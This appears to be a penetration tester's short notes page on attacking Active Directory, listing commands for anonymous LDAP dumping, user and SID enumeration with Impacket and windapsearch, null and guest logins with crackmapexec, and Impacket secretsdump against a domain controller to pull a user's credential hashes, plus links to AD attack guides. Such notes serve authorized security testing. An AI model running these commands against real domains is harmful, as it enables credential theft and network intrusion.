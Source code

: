 ```yaml
---
title: General Notes
updated: 2023-08-04 17:24:49Z
created: 2020-03-13 04:31:02Z
---
```


# Note: Be careful with brute forcing AD as you can disable user accounts due to the Account Lockout Policy. 


# Anonymous Credential LDAP Dumping: 

- ldapsearch -LLL -x -H ldap://<domain fqdn> -b ‘’ -s base ‘(objectclass=*)’

Impacket GetADUsers.py (Must have valid credentials)

- GetADUsers.py -all <domain\User> -dc-ip <DC_IP>

Impacket lookupsid.py:

- /usr/share/doc/python3-impacket/examples/lookupsid.py username:password@172.21.0.0

Impacket Secretdump:

python3 secretdump.py 'breakme.local/Administrator@172.21.0.0' -just-dc-user anakin

Windapsearch:

https://github.com/ropnop/windapsearch 

- python3 windapsearch.py -d host.domain -u domain\\ldapbind -p PASSWORD -U

Crackmapexec:

- cme ldap <IP> -u "" -p "" -d <DOMAIN>

- cme ldap <IP> -u "Guest" -p "" -d <DOMAIN>

## References: 

- PayloadAllTheThings: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise

- Attacking Active Directory: 0 to 0.9:
https://zer1t0.gitlab.io/posts/attacking_ad/